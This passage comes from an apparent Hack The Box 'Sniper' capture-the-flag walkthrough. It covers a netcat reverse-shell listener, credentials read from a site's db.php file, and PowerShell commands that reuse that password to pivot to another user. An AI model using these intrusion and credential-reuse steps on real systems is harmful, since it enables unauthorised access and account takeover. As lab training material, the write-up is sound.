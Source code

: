 As it a reverse shell we need to perform a netcat listener.

```html
nc -lv 4444
```

## Gaining an Initial Foothold

![Untitled](/HTB/sniper-13.png)

We are logged as **iusr**

![Untitled](/HTB/sniper-14.png)

**iusr** doesn’t seem to be like a common user so I supposed that is a daemon running the website.

![Untitled](/HTB/sniper-15.png)

We can’t acces to the chris directory so let’s see if there is any way to own the user.

If we return to the website folder there is a db.php file with credentials at the user folder of the website. We can use the password to perform a user pivoting to gain access to **chris**.

```php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

Let’s move to powershell to perform that technique.

First let’s see what is the hostname

![Untitled](/HTB/sniper-16.png)

With the following commands we can make an object with the password and the username

```powershell
$user = "Sniper\chris"
$pass = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($user, $pass)
```

Now let’s invoke a command to see if the password is Chris's. I used:

```powershell
Invoke-Command -Credential $cred -ComputerName Sniper -ScriptBlock { whoami }
```

![Untitled](/HTB/sniper-17.png)
